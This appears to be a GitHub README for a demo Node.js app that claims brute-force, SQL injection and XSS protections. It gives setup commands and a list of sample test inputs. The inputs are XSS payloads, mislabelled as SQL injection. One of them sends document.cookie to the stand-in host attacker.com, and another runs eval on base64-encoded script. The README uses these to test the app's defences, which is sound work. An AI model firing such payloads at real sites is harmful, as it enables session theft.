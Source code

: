# Simple Web Security App

This project demonstrates a simple web application that includes features like brute force protection, SQL injection prevention, and XSS mitigation.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Dependencies](#dependencies)
- [Testing](#testing)
  
## Installation

Follow the steps below to set up the project on your local machine.

### 1. Create a New Project Directory
Open your terminal and create a new directory for your project:
```bash
mkdir my-web-security-app
cd my-web-security-app
```

### 2. Initialize a Node.js Project
Run the following command to initialize a new Node.js project and create the package.json file:
```bash
npm init -y

```

### 3. Install Required Dependencies
```bash
npm install express cors

```

### 4. Start the Server
```bash
node server.js

```

### Others
```bash
netstat -ano | findstr :3000
taskkill /PID ID /F
```
### Sample Inputs
```bash
USERNAME AND PASSWORD

{
  "username": "joxyle",
  "password": "jhon"
}

SQL INJECTION
{
  "username": "<script>alert('XSS')</script>",
  "password": "password123"
}
{
  "username": "<img src='x' onerror='alert(1)'>",
  "password": "password123"
}
{
  "username": "<img src='nonexistent.jpg' onload='alert(\"XSS\")'>",
  "password": "password123"
}
{
  "username": "<script>fetch('http://attacker.com?cookie=' + document.cookie)</script>",
  "password": "password123"
}
{
  "username": "<img src='x' onerror='eval(atob(\"YWxlcnQoJ1hTUycp\")' />",
  "password": "password123"
}

```
